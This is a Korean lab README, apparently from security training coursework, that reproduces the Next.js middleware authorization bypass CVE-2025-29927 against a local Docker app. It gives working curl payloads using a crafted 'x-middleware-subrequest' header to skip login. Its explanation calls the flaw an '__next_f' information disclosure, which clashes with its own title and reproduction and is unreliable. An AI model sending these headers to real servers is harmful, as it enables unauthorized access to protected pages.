 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [류송)](https://github.com/KUStiger/whs3-nextjs/tree/main/Next.js/CVE-2025-29927)


## Next.js란?

Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.

Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.

---

## CVE-2025-29927 취약점 설명

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.

Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 이를 제대로 방어하지 못하고 서버 내부 렌더링 데이터(`__next_f`)를 외부 클라이언트에게 노출시키는 문제가 발생합니다.

### 요약

- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

---


**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
